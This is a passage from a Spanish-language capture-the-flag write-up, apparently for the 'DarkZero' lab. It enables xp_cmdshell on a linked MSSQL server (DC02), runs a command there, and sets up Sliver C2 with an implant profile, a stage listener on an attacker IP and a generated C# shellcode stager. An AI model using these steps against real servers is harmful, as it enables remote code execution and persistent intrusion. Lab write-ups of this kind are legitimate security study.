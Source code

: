 Este error indica que sólo está deshabilitado, no que no pueda utilizarse, entonces, hacemos el típico método para habilitarlo:

* `EXECUTE sp_configure 'show advanced options', 1` - Permitir modificar las opciones avanzadas
* `RECONFIGURE` - Hacer el update a los cambios
* `EXECUTE sp_configure 'xp_cmdshell', 1` - Habilitar el feature
* `RECONFIGURE` - Hacer el update a los cambios

```SQL
SQL (darkzero\john.w  guest@master)> EXECUTE('EXECUTE sp_configure ''show advanced options'', 1') AT [DC02.darkzero.ext]
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (darkzero\john.w  guest@master)> EXECUTE('RECONFIGURE') AT [DC02.darkzero.ext]

SQL (darkzero\john.w  guest@master)> EXECUTE('EXECUTE sp_configure ''xp_cmdshell'', 1') AT [DC02.darkzero.ext]
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (darkzero\john.w  guest@master)> EXECUTE('RECONFIGURE') AT [DC02.darkzero.ext]

SQL (darkzero\john.w  guest@master)> EXECUTE('xp_cmdshell ''whoami''') AT [DC02.darkzero.ext]
output                 
--------------------   
darkzero-ext\svc_sql   

NULL     

```

Listo, tenemos ejecución de comandos sobre el `DC02`; ahora, para entablar la comunicación podemos tirar de cualquier cosa que nos establezca una reverse shell, como por ejemplo `metasploit` (crear el ejecutable, iniciar el `msfconsole`, subirlo, ejecutarlo y obtener la sesión) pero esta vez utilizaré `sliver`:

#### Preparación Sliver

Iniciando el framework sólo haría falta hacer los perfiles con nuestras preferencias indicando los detalles del `stage listener` y el servidor en sí:

```js
sliver > profiles new --http 10.10.16.77:8080 --format shellcode Banana

[*] Saved new implant profile Banana

sliver > stage-listener --url tcp://10.10.16.77:80 --profile Mandarina

[!] Profile not found

sliver > stage-listener --url tcp://10.10.16.77:80 --profile Banana

[*] No builds found for profile Banana, generating a new one
[*] Sliver name for profile Banana: MUDDY_CLAVICLE
[*] Job 2 (tcp) started

http -L <Local_IP> -l <Http Listener Port>
[*] Job 3 (http) started

sliver > generate stager --lhost 10.10.16.77 --lport 80 --format csharp --save Stager.sc

[*] Sliver implant stager saved to: .../DarkZero/Stager.sc
```
